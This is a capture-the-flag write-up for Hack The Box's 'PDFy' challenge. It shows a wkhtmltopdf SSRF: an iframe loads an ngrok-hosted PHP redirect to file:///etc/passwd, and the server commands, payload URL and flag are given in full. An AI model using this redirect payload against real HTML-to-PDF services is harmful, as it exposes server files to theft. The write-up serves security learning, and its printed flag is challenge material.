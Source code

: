 # PDFy
> Challenge: [PDFy](https://app.hackthebox.com/challenges/PDFy)
> 
> **CHALLENGE DESCRIPTION**
> 
> Welcome to PDFy, the exciting challenge where you turn your favorite web pages into portable PDF documents! It's your chance to capture, share, and preserve the best of the internet with precision and creativity. Join us and transform the way we save and cherish web content! NOTE: Leak /etc/passwd to get the flag!

## Summary

## Solution
Firstly, when I saw that the application received url input, I tried payload `file:///etc/passwd` but it didn't work.

![img.png](img.png)

Then, I decided to model the function of this application

![img_1.png](img_1.png)

Request-response are captured in Burp Proxy

![img_2.png](img_2.png)

We can realize that after we put a valid url into the application, a PDF document is generated. In details, these PDF files are saved in `/static/pdfs`

![img_3.png](img_3.png)

I also tried to traverse path in this folder with `wfuzz` but it didn't work too.

That I tried to explore the framework used in converting HTML to PDF with some forensics:
+ In the application's log
    
![img_4.png](img_4.png)
+ I also searched in Gemini about frameworks in HTML to PDF and confirm that `wkhtmltopdf` is used in this application
+ This framework has some vulnerabilities :)))) https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/#exploitation

Now I will host a PHP server and public it with `ngrok`. Create `index.html` and `index.php` in current folder
+ `index.html`
```html
<!DOCTYPE html>
<body>
<iframe src="http://<ngrok_ip>:<port>/index.php?x=/etc/passwd" 
              style="height:1000px;width:1000px"></iframe>
</body>
</html>
```
+ `index.php`
```php
<?php header('location:file://'.$_REQUEST['x']); ?>
```
Host the server: `$ php -S 127.0.0.1:5555`

Public with `ngrok`: `$ ngrok tcp 5555`

**Payload:**`http://0.tcp.ap.ngrok.io:11610/index.html`

Put it into the application 
![img_5.png](img_5.png)

**Flag:** `HTB{pdF_g3n3r4t1on_g03s_brrr!}`



